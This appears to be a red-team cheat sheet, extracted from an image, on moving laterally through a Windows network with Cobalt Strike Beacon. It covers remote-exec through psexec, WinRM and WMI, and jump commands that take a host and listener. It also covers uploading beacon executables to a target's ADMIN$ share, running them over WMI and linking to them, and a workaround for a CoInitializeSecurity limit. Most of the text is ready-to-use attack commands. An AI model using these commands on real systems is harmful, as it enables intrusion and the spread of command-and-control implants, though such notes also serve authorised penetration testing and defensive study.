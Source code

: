 #### Remote-exec
```
remote-exec [method] [target] [command]

    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

### Custom
- Use primitives such as `powershell`, `execute-assembly`, etc to implement something custom with for example an agressor script.

#### Getting the architecture
- for winrm or winrm64 with jump
```
remote-exec winrm <HOSTNAME> (Get-WmiObject Win32_OperatingSystem).OSArchitecture
```

#### Jump winrm
```
jump winrm64 <HOSTNAME> <LISTENER>
```

### Jump PSexec
```
jump psexec64 <HOSTNAME> <LISTENER>
```

### WMI
- Not a jump command but can be used manually
- Make sure the firewall is open for the ports used!
```
cd \\<HOSTNAME>\ADMIN$
upload <SMB BEACON EXE>
remote-exec wmi <HOSTNAME> <BEACON EXE>
link <HOSTNAME> <PIPE>
```

```
cd \\<HOSTNAME>\ADMIN$
upload <TCP BEACON EXE>
remote-exec wmi <HOSTNAME> <BEACON EXE>
connect <HOSTNAME> <PORT>
```

#### WMI exec commands
```
remote-exec winrm <HOSTNAME> whoami; hostname
```

#### CoInitializeSecurity
- Beacon's internal implementation of WMI uses a Beacon Object File, executed using the beacon_inline_execute Aggressor function. When a BOF is executed the CoInitializeSecurity COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process. The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.
- if CoInitializeSecurity has already been called, WMI fails with access denied.
- As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as spawn and spawnas, or even execute-assembly with a tool such as SharpWMI.
